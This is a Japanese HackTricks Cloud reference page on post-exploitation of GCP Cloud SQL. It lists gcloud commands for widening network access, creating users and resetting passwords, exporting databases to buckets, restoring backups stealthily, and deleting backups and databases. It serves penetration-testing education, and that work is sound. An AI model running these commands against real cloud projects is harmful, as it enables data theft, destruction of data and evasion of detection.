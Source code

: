 # GCP - Cloud SQL ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Cloud SQL

Cloud SQLに関する詳細情報は以下を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

データベースに接続するには、**データベースポートへのアクセス**と**ユーザー名**および**パスワード**を知っているだけで、IAMの要件はありません。したがって、データベースにパブリックIPアドレスがあると仮定すると、アクセスを取得する簡単な方法は、許可されたネットワークを更新し、**自分のIPアドレスをアクセスできるようにする**ことです。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**を使用して、データベースの**バックアップを中断**することも可能です。

これらが要件であるため、**`cloudsql.instances.connect`**と**`cloudsql.instances.login`**の権限が何であるかは完全にはわかりません。知っている方はPRを送ってください！

### `cloudsql.users.list`

データベースの**すべてのユーザーのリスト**を取得します：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

この権限は**データベース内に新しいユーザーを作成する**ことを許可します：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

この権限は**データベース内のユーザーを更新する**ことを許可します。例えば、パスワードを変更することができます：

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

バックアップには**古い機密情報**が含まれている可能性があるため、確認することが興味深いです。\
データベース内で**バックアップを復元**します：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
よりステルスな方法で行うには、現在稼働中のデータベースではなく、新しいSQLインスタンスを作成し、そこでデータを復元することをお勧めします。

### `cloudsql.backupRuns.delete`

この権限はバックアップを削除することを許可します：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**データベースをエクスポート**してCloud Storageバケットに保存し、そこからアクセスできるようにします:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage バケットからデータベースをインポート**（上書き）:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

データベースインスタンスからデータベースを削除します:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
